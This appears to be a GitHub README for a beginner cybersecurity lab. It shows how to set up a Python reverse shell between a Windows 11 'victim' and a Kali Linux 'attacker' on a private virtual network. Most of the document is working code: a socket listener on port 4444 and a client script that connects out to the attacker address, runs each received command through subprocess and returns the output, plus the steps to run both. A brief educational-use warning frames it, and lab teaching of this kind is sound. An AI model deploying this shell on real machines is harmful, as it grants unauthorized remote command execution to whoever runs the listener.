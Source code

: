 
# Python Reverse Shell – Beginner Cybersecurity Project

This project demonstrates a **basic reverse shell in Python** between a **Windows 11 target** and a **Kali Linux attacker** over a local network. It is intended for educational use **within a safe, virtual lab environment**.

## ⚠️ Warning

**Educational Use Only** – Do not use these techniques on systems or networks without explicit authorization.

---

## Step 0: Prepare the Lab

- Kali Linux = Attacker (IP: `192.168.44.128`)
- Windows 11 = Victim (IP: `192.168.44.130`)
- Ensure both are on the same virtual network.



---

## Step 1: Create the Listener (Kali)

![Step 0](screenshots/step0.png)

Create a file named `listener.py` with the following content:

```python
import socket

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
listener.bind(("0.0.0.0", 4444))
listener.listen(1)
print("[+] Listening on port 4444...")

connection, address = listener.accept()
print(f"[+] Connection from {address}")

while True:
    command = input("Shell> ")
    connection.send(command.encode())
    result = connection.recv(1024).decode()
    print(result)
```

![Step 1](screenshots/step1.png)

---

## Step 2: Create the Reverse Shell (Windows 11)

Create a file named `reverse_shell.py` on Windows 11 with:

```python
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.44.128", 4444))

while True:
    command = s.recv(1024).decode()
    output = subprocess.getoutput(command)
    s.send(output.encode())
```

![Step 2](screenshots/step2.png)

---

## Step 3: Transfer `reverse_shell.py` to Windows

Use any method (USB, shared folder, etc.). Open it with Python on Windows.


---

## Step 4: Run the Listener

On **Kali**, start the listener:

```bash
python3 listener.py
```


---

## Step 5: Run the Reverse Shell on Windows

Double-click `reverse_shell.py` (or run via terminal if Python is installed).



---

## Step 6: Shell Access

If successful, you'll see a shell prompt in Kali. You can now send commands to the Windows machine.

![Step 3](screenshots/step3.png)

---

## What You Learned

- How reverse shells work
- Basic socket programming in Python
- How to simulate an attack in a virtual lab

---

## Tags

`#ReverseShell` `#Python` `#Cybersecurity` `#BeginnerProject` `#EthicalHacking` `#SocketProgramming`
